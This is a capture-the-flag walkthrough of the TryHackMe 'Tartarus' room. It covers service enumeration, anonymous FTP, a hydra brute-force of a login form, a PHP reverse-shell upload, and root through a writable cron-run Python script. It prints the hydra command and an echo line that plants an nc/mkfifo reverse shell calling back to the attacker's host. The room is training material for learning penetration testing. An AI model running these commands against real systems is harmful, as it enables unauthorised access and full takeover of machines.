 # Tartarus

[<img src=".Images/tartarus.png" height="199">](https://tryhackme.com/room/tartaraus)

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

<script src="https://tryhackme.com/badge/59136"></script>

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![tartarus-1](.Images/tartarus-1.png)

We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`

![tartarus-2](.Images/tartarus-2.png)

We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`

![tartarus-3](.Images/tartarus-3.png)

We found another file called yougotgoodeyes.txt. Let's check these files.

![tartarus-4](.Images/tartarus-4.png)

/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.

![tartarus-5](.Images/tartarus-5.png)

We found /admin-dir directory.

![tartarus-6](.Images/tartarus-6.png)

Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`

![tartarus-7](.Images/tartarus-7.png)

******

## [Gain Shell]

We can now login to the site using this information.

![tartarus-8](.Images/tartarus-8.png)

Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 

![tartarus-9](.Images/tartarus-9.png)

We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`

![tartarus-10](.Images/tartarus-10.png)

If we look at the images directory, we will see that there is a directory named uploads in it.

![tartarus-11](.Images/tartarus-11.png)

We will find the file we uploaded in it.

![tartarus-12](.Images/tartarus-12.png)

If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`

![tartarus-13](.Images/tartarus-13.png)

******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![tartarus-14](.Images/tartarus-14.png)

If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.

![tartarus-15](.Images/tartarus-15.png)

Let's look inside the file named cleanup.py.

![tartarus-16](.Images/tartarus-16.png)

The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT>  >/tmp/f")' > cleanup.py`

![tartarus-17](.Images/tartarus-17.png)

Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.

![tartarus-18](.Images/tartarus-18.png)

And now we are root user.
